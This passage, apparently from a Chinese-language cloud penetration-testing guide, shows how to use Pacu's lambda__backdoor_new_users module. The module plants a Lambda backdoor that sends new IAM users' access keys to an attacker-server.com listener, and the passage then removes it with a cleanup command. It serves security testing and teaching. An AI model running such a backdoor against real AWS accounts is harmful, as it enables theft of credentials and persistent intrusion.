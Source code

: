 ```
run lambda__backdoor_new_users --exfil-url http://attacker-server.com/
```

当 Pacu 命令完成时，目标账户现在应该已经设置了我们的 Lambda 后门。只要环境中的其他人创建了一个新的 IAM 用户，我们应该收到一个带有这些凭证的 HTTP 监听器的请求。

以下截图显示了运行`lambda__backdoor_new_users` Pacu 模块的一些输出：

![](img/482885c6-1634-4167-bc6a-5b3a6127c6c0.png)

现在，下一个截图显示了在有人在我们的目标环境中创建用户后，向我们的 HTTP 服务器 POST 的凭据：

![](img/fc4f4128-1065-4292-b803-1dd997d58bcf.png)

我们可以看到访问密钥 ID 和秘密访问密钥都包含在这个 HTTP POST 请求的正文中。现在我们已经为一个用户收集了密钥，如果我们觉得有必要，我们可以删除我们的后门（您不应该在您正在测试的环境中留下任何东西！）。为了做到这一点，我们可以运行以下 Pacu 命令：

```
run lambda__backdoor_new_users --cleanup
```

这个命令应该输出类似以下截图的内容，表明它已经删除了我们之前创建的后门资源：

![](img/e7c1f06d-0048-4c4b-9ae4-753254afac30.png)
